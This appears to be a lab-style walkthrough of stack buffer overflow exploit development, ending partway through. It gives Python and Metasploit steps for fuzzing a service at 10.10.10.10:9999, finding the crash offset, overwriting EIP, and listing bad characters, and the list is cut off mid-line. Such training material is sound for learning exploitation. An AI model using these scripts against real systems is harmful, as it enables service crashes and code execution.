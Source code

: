 ### 1. Fuzzing
```python
#!/usr/bin/python
import socket, sys

buffer = "A" * 100
while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('10.10.10.10', 9999))
        s.send(buffer)
        s.close()
        buffer = buffer + "A" * 100
        print("Fuzzing with %s bytes" % len(buffer))
    except:
        print("Fuzzing crashed at %s bytes" % len(buffer))
        sys.exit()
```

### 2. Finding the Offset
```bash
# Generate pattern
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000

# Find offset after crash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39694438
```

### 3. Controlling EIP
```python
#!/usr/bin/python
import socket

buffer = "A" * 2288    # Offset
buffer += "B" * 4      # EIP
buffer += "C" * 500    # ESP / Shellcode space

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.10.10', 9999))
s.send(buffer)
s.close()
```

### 4. Finding Bad Characters
```python
#!/usr/bin/python
import socket

# All possible characters
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
```